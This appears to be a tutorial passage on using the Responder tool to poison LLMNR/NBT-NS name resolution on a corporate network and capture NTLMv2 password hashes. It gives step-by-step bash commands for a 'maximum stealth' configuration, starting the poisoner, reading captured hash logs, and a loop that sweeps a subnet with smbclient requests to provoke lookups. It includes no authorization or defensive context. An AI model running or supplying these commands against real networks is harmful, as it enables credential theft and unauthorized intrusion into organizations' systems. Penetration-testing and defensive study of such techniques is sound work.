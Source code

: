 ### Example: Capturing NTLMv2 Hashes

This example demonstrates using Responder to capture NTLMv2 authentication hashes in a corporate environment:

1. Position yourself on the target network:

```bash
# Connect to the target network
# Ensure your interface is properly configured
ip addr show
```

2. Configure Responder for maximum stealth:

```bash
# Edit Responder.conf to enable only necessary servers
sudo nano /usr/share/responder/Responder.conf

# Set these values:
SMB = On
HTTP = On
HTTPS = Off  # Often blocked by AV
LDAP = Off   # Can cause network issues
SQL = Off    # Not commonly triggered
FTP = Off    # Uncommon in modern environments
```

3. Start Responder in its standard poisoning mode:

```bash
sudo responder -I eth0 -v
```

4. Monitor captured hashes:

```bash
# Hashes are stored in the logs directory
cat /usr/share/responder/logs/SMB-NTLMv2-SSP-192.168.1.5.txt
```

5. Create a more targeted attack by combining with network scanning:

```bash
# Identify potential targets
sudo nmap -sP 192.168.1.0/24

# Run Responder while creating traffic that might trigger name resolution
sudo responder -I eth0 -v &

# Create non-existent share access attempts to trigger LLMNR/NBT-NS
for ip in $(seq 5 254); do
    ping -c 1 -W 1 192.168.1.$ip > /dev/null 2>&1
    if [ $? -eq 0 ]; then
        echo "Attempting to trigger name resolution on 192.168.1.$ip"
        smbclient -L \\NONEXISTENT-SERVER-NAME -I 192.168.1.$ip -N > /dev/null 2>&1
    fi
done
```
